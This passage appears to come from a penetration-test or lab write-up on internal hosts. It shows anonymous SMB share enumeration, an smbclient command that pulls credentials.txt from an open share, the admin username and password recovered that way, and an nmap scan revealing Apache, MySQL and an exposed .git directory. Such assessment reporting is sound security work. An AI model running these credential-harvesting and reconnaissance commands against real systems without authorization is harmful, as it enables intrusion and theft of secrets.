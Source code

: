 **Results:**
```
Sharename       Type      Comment
---------       ----      -------
public          Disk      
IPC$            IPC       IPC Service (Samba 4.19.5-Ubuntu)
```

**Critical Finding:** Anonymous access permitted to "public" share without authentication.

---

### 1.3 Credential Harvesting

**Objective:** Extract sensitive information from exposed share

**Command Executed:**
```bash
smbclient //10.50.100.10/public -N -c "ls; get credentials.txt; get endpoint.txt"
```

**Files Retrieved:**
- credentials.txt (28 bytes)
- endpoint.txt (35 bytes)

**Extracted Credentials:**
```
Username: robert_admin
Password: SecureP@ss2024
Endpoint: /admin/console
```

**Impact:** Complete credentials for administrative access obtained without authentication.

---

## 2. Initial Access

### 2.1 Application Server Discovery

**Target:** webapps.corp.local (10.50.100.20)

**Command Executed:**
```bash
nmap -sV -A -p- 10.50.100.20
```

**Results:**
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
```

**Findings:**
- Apache web server running on port 80
- MySQL database exposed on port 3306
- HTTP service analysis revealed exposed .git directory

---